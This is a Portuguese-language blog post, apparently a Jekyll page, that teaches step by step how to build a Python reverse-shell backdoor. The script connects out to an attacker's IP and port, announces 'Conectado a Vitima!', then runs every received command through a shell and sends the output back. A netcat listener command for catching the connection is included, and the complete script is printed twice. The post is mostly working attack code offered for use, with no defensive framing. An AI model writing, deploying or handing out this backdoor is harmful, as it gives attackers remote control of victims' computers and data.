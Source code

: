 ```yaml
---
layout: post
title:  "BlackDoor em Python"
date:   2017-12-18
---
```

<figure>
	<img src="{{ '/assets/img/ imagem aqui' | prepend: site.baseurl }}" alt=""> 
	
</figure>
<p class="intro"><span class="dropcap"> S</span>imples "BkacDor" em python para conexão revessa, você pode usar o NetCat ou criar um servido em python para estar ouvindo o"BkacDor".

<dt>1. vamos importa as bibliotecas necessarias para o funcionamento do BackDoor.</dt> 

{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
# ou 
import socket
import subprocess
import os
{% endhighlight %}

<dt>2. Antes de começar vamos definir 2 variáveis para a "Porta" é "IP" onde o backdor ira se conectar. </dt>

{% highlight python %}
# Seu Ip ou Ip externo 
HOST = '192.168.1.40'
# Sua porta  
PORT = 90
{% endhighlight %}

<dt>3. Agora temos que definir o tipo de socket, neste caso sera usado o socket do tipo TCP.</dt>

{% highlight python %}
# TCP Socket 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
{% endhighlight %}

<dt>4. Aqui estamos conectando o socket no ip e porta que definimos acima.</dt>
{% highlight python %}
# Conectando ou Ip e a Porta 
s.connect((HOST, PORT))
{% endhighlight %}

<dt>5. Agora vamos enviar uma "mensagem para o servidor indicando que nos conectamos a ele."</dt>
{% highlight python %}
# Mensagem indicando que estamos conectado
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
{% endhighlight %}

<dt>6. Agora vamos criar um "loop" para recebermos comando externos de um servidor. </dt>
{% highlight python %}
while 1:
     data = s.recv(1024)
# Se dermos o comando "quit" paramos o loop 
     if data == "quit": break
# Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     stdout_value = proc.stdout.read() + proc.stderr.read() 
     s.send(stdout_value)
# Fechamos o socket 
s.close()
{% endhighlight %}

<dt> A qui abaixo esta os servidor já pronto é uma imagem dele conectado ao "NetCat"</dt>
{% highlight python %}
#!/usr/bin/python
import socket,subprocess, os
HOST = '192.168.1.40'    # Seu Ip ou No-Ip
PORT = 90                # Sua porta 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send('''
        #########################
        [*] Conectado a Vitima !
        #########################
	    \nRoot@Shell>>''')
while 1:     
     data = s.recv(1024)    
     if data == "quit": break
     # Parte do comando "CD" para navegar melhor.
     if data.startswith('cd'):
          os.chdir(data[3:].replace('\n',''))
          s.send(os.getcwd()+"Root@Shell>>")     
     proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)     
     stdout_value = proc.stdout.read() + proc.stderr.read()
     s.send(stdout_value)
s.close()
{% endhighlight %}

<figure>
	<img src="{{ '/assets/img/socket.png' | prepend: site.baseurl }}" alt=""> 
	<dd>Usando o NetCat Exp:</dd>
	<figcaption>nc -vnlp "90" tem que ser a porta que definimos na variável "PORT" </figcaption>
</figure>





